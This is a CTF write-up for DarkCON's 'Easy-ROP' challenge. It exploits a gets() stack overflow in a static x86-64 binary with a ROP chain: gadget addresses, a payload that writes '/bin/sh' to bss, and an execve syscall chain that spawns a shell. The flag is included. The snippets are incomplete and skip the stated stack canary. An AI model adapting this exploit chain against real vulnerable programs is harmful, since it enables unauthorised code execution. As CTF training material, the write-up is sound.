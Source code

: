 # [DarkCON CTF] Easy-ROP

## Summary

+ stack buffer overflow
+ ret2libc
+ ret2syscall

## File

+ Arch : x86-64
+ Library : statically linked

## Checksec

+ CANARY : Enabled
+ FORTIRY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

There is one simple function 

+ main

stack buffer overflow occurs by gets()

## Exploit

**ROPgadget**

```python
syscall = 0x004012d3
prax = 0x004175eb
prdi = 0x0040191a
prsi = 0x0040f4be
prdx = 0x0047560e
```

There are lots of gadgets to control system call at given binary. Therefore, challenge can be solved easily if "/bin/sh" exists.

**Write binsh at bss**

```python
payload = b"A"*0x48
payload += p64(prdi)
payload += p64(bss)
payload += p64(gets)
p.sendline(payload)

payload = b"/bin/sh\x00"
p.sendline(payload)
```

We can get address of "/bin/sh" by writing it using gets().

**Call system("/bin/sh") using syscall gadget**

```python
payload += p64(prdi)
payload += p64(bss)
payload += p64(prsi)
payload += p64(0)
payload += p64(prdx)
payload += p64(0) + p64(0) + p64(0)
payload += p64(prax)
payload += p64(0x3b)
payload += p64(syscall)
p.sendline(payload)
```

Now we can get shell with syscall and binsh.

## Flag

+ darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}